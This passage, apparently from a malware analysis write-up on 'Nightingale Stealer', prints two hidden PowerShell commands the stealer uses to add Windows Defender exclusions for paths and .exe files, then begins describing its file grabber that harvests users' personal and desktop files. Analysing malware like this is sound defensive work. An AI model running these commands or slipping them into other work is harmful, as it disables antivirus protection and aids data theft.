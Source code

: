 ```powershell
cmd /k start /b powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath & exit
cmd /k start /b powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionExtension .exe & exit
```

![Untitled](/assets/img/nightingale/17.png)

### Data Collection Functions

1. File Grabber

Our exploration of `Nightingale Stealer`'s Data Collection Functions brings us to the `File Grabber`. This particular function is responsible for harvesting files from the user's personal and desktop directories.
